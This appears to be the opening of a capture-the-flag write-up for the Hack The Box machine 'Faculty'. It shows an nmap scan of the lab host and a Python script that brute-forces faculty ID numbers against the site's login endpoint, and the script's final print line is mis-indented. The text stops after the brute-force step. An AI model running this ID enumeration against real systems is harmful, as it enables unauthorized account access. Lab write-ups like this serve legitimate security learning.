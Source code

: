 <h2> Faculty </h2>

Linux - Medium



1. Nmap scan 

~~~nmap
└─$ nmap -sC -sV -o faculty.nmap 10.10.11.169
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 06:03 EDT
Nmap scan report for 10.10.11.169
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
~~~

* Change /etc/hosts file to include faculty.
* This is what we are greeted with:
![[Faculty1.png]]


* Tried to brute force the id..
~~~python
import requests
URL = "http://faculty.htb"
phpcookies = {"PHPSESSID":"p8puot3fnvvqksksq5e17ejnhn"}

print("[+] Running...")

for i in range(1,10000):
	if ( not (i % 1000) ):
		print(f"Current i: {i}")

	idData = {"id_no":i}

	if ( requests.post(URL + "/admin/ajax.php?action=login_faculty", cookies=phpcookies, data=idData ).text ) != "3":

	print(f"[!] Found Valid ID!: {i}")

~~~
